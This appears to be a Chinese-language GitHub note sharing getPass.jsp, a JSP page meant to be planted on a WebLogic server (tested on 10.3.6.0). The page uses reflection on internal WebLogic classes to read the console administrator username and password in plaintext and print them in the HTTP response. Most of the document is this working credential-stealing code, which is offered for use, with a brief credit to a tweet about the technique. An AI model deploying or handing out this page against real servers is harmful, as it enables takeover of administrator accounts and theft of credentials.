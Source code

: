 目录
- 01 获取Weblogic console用户名&密码(免解密)-getPass.jsp


### 获取Weblogic console用户名&密码(免解密)-getPass.jsp

以往遇上weblogic的站点时都是通过密钥进行解密获取console的密码，甚至但是解密方法就出现好几种，

![image](https://user-images.githubusercontent.com/55024146/144720808-7e3efafd-8126-4994-bd78-945e314ff3ac.png)
这个姿势，于是赶紧学习学习！！！

但是前几个小时在twitter @jas502n师傅公开了[Use T3 protocol Get weblogic console username, password](https://twitter.com/jas502n/status/1467122190760177664)这个姿势，于是赶紧学习学习！！！


断点看看代码细节：

![image](https://user-images.githubusercontent.com/55024146/144720899-5b80c842-e6dd-47c2-b2fc-e3c60ba2a8f5.png)

代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果

![image](https://user-images.githubusercontent.com/55024146/144720974-59cb9fd5-65df-4dae-a9f8-fd103719f499.png)

